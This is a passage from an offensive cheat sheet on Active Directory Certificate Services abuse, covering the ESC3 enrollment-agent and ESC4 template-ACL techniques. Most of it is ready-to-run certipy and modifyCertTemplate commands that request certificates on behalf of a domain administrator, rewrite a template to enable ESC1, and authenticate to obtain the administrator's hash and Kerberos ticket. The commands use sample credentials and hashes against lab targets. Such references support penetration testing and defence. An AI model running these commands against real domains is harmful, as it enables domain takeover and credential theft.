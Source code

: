* Request a certificate specifying the `/altname` as a domain admin like in [ESC1](#esc1---misconfigured-certificate-templates).

## ESC3 - Misconfigured Enrollment Agent Templates

> ESC3 is when a certificate template specifies the Certificate Request Agent EKU (Enrollment Agent). This EKU can be used to request certificates on behalf of other users

* Request a certificate based on the vulnerable certificate template ESC3.

  ```ps1
  $ certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC3'
  [*] Saved certificate and private key to 'john.pfx'
  ```

* Use the Certificate Request Agent certificate (-pfx) to request a certificate on behalf of other another user

  ```ps1
  certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'User' -on-behalf-of 'corp\administrator' -pfx 'john.pfx'
  ```

## ESC4 - Access Control Vulnerabilities

> Enabling the `mspki-certificate-name-flag` flag for a template that allows for domain authentication, allow attackers to "push a misconfiguration to a template leading to ESC1 vulnerability

### Updated Exploitation w/ Certipy
* Write over the vulnerable certificate with the default configuration (Basically enabling ESC1)
  ```bash
  certipy template -dc-ip 10.10.11.51 -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -target dc01.sequel.htb -write-default-configuration
  ```
* Request the certificate with an alternate UPN
  ```bash
  certipy req -ca sequel-DC01-CA -dc-ip 10.10.11.51 -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb -ns 10.10.11.51
  ```
* Auth to get the hash and TGT
  ```bash
  certipy auth -dc-ip '10.10.11.51' -pfx administrator.pfx
  ```

### Old Way

* Search for `WriteProperty` with value `00000000-0000-0000-0000-000000000000` using [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)

  ```ps1
  python3 modifyCertTemplate.py domain.local/user -k -no-pass -template user -dc-ip 10.10.10.10 -get-acl
  ```

* Add the `ENROLLEE_SUPPLIES_SUBJECT` (ESS) flag to perform ESC1
